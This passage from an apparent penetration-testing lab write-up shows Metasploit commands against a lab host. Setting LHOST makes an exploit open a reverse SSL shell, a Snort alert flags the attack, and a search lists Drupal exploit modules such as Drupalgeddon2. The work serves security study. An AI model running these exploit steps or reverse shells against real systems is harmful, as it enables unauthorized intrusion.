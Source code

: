 And select the number 5:

```bash
set payload 5
```

We run the exploit

```bash
exploit
```

And get:

```bash
[-] Handler failed to bind to 172.16.216.1:4444
[-] Handler failed to bind to 0.0.0.0:4444
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:4444).
[*] Exploit completed, but no session was created.
```

This is because the LHOST is not correctly set

```bash
set LHOST 192.168.0.104
exploit
```

```bash
[*] Started reverse SSL handler on 192.168.0.104:4444 
[+] Added printer successfully
[+] Deleted printer 'txAKL9H0dP' successfully
[*] Command shell session 1 opened (192.168.0.104:4444 -> 192.168.0.104:34270) at 2023-11-19 16:58:02 +0200

[*] 172.28.128.3 - Command shell session 1 closed.
```

We manage to get a shell but it closes immediately, we can see that the exploit is not stable, we tried with other payloads but we get the same result.

We can also see that the attack was detected by snort as a priority 1 attack:

```bash
11/19-15:01:03.079051  [**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:44957 -> 172.28.128.3:631
```

## Identified Attack 3: Drupal

In the second nmap scan, we saw in the port 80 that there was a folder called `drupal`. So lets search for a exploit for drupal:

```bash
search drupal
```

```bash
Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2  exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   3  auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
```